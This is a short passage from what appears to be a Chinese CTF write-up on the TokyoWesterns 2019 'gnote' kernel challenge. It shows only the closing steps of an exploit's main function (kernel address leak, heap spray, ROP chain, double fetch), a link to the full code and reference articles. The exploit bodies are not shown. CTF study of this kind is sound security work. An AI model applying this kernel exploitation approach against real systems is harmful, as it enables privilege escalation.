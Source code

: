 ```c
    }
    
    // Step 1 : leak kernel address
    leak_kernel_address();

    // Step 2 : place heap spray data
    prepare_heap_spray();

    // Step 3 : place ROPchain 
    set_ropchain();

    // Step 4 : double_fetch
    double_fetch();

    return 0;
}


```

# 下载

[github](https://github.com/b0ldfrev/project/tree/master/pwn/gnote)

# 参考

[【内核漏洞利用】TokyoWesternsCTF-2019-gnote Double-Fetch](https://mp.weixin.qq.com/s?__biz=MzI2ODM4NzUyNQ==&mid=2247484029&idx=1&sn=f6bfec08b43c75ca7af6bd12f4999113&chksm=eaf117d7dd869ec1eee66d75abac5d38112b7a63c3bf28edc32960c60d74541a75bb2e4dfe9d&mpshare=1&scene=23&srcid=&sharer_sharetime=1585655592580&sharer_shareid=85875ea7087d5e89ec671378652f4aac#rd)

[KERNEL PWN状态切换原理及KPTI绕过](https://bbs.pediy.com/thread-258975.htm)